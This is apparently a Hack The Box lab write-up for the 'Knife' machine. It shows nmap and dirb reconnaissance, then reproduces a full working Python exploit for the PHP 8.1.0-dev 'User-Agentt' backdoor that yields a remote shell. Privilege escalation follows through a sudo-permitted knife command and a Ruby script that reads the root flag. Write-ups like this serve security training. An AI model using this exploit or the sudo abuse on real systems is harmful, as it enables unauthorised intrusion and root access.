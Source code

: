 ![image](https://user-images.githubusercontent.com/105310322/187503628-bc497651-e7cf-4967-bb53-a7f33613718d.png)

### Tools: Nmap, 

Running nmap we can see that port 80 and 22 are open. Lets run a dirb and check out the webpage while it runs.

```console
─[us-dedivip-1]─[10.10.14.93]─[htb-0xrogue@pwnbox-base]─[~]
└──╼ [★]$ nmap -sC -A -Pn 10.129.82.115
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-08 20:55 BST
Nmap scan report for 10.129.82.115
Host is up (0.0043s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.97 seconds
─[us-dedivip-1]─[10.10.14.93]─[htb-0xrogue@pwnbox-base]─[~]
└──╼ [★]$ dirb http://10.129.82.115

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Aug  8 20:57:51 2022
URL_BASE: http://10.129.82.115/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.82.115/ ----
+ http://10.129.82.115/index.php (CODE:200|SIZE:5815)                          
+ http://10.129.82.115/server-status (CODE:403|SIZE:278)                       
                                                                               
-----------------
END_TIME: Mon Aug  8 20:58:08 2022
DOWNLOADED: 4612 - FOUND: 2
```
Navigating to the webpage we can see that there is nothing interesting but running a curl command shows that its "X-Powered-By" php 8.1.0.

```console
└──╼ [★]$ curl -I 10.129.82.115
HTTP/1.1 200 OK
Date: Mon, 08 Aug 2022 20:17:49 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```
A quick google search gives us an exploit we can run to get a shell on the host.

```python
# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#    - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# References:
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Now running the script gives us a shell!

```console
└──╼ [★]$ python3 php.py 
Enter the full host url:
http://10.129.82.115

Interactive shell is opened on http://10.129.82.115 
Can't acces tty; job crontol turned off.
$ pwd
/

$ whoami
james
```

I had trouble navigating with the limited shell but was able to locate the user flag.

```console
$ pwd
/

$ ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var

$ ls home
james

$ ls home/james
user.txt

$ cat home/james/user.txt
a907****************************
```

Now to priviledge escalate and grab the root flag. Its always smart to run sudo -l to see what the logged in user can use

```console
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Knife is the vulnerable sudo permission that we can exploit. Coincidence!? I think not!
unfortunately with this being an unstable shell I was unable to get root priviledges with this exploit from GTFO bins so we shall use another...

```console
$ sudo knife exec -E 'exec "/bin/sh"'
No input file specified.
```
Since knife can execute ruby scripts, we will make a quick script to read the root flag with sudo permissions.

```console
$ echo "data = File.read(\"/root/root.txt\")\r\nputs data" > ~/flag.rb

$ sudo knife exec ~/flag.rb
42ab****************************
```

Voila we have both flags!!

Pretty simple box. I had a little trouble after the GTFO bins didn't work on the knife command, but a little digging showed that it can run ruby scripts so then my next challenge became creating a ruby script to read the flag.
